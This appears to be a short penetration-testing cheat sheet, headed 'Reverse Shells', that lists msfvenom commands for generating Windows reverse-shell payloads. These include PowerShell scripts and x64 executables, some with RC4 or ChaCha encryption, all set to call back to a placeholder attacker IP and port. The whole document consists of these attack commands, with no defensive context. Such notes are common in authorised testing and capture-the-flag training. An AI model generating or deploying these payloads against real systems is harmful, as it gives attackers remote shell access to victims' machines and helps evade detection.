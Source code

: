 # Reverse Shells

1. x86 (32-bit) Payloads

`$ msfvenom -p cmd/windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> -o shell.ps1`

`$ msfvenom -p windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> -o shell.ps1`

2. x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x64.exe`

`$ msfvenom -p windows/x64/shell_reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-x64.exe`

`$ msfvenom -p windows/x64/encrypted_shell_reverse_tcp chachakey=1234567890abcdef1234567890abdcef chachanonce=1234567890ab lhost=<IP> lport=<PORT> -f exe -o shell-enc-x64.exe`

`$ msfvenom -p windows/x64/powershell_reverse_tcp lhost=<IP> lport=<PORT> -o shell-x64.ps1`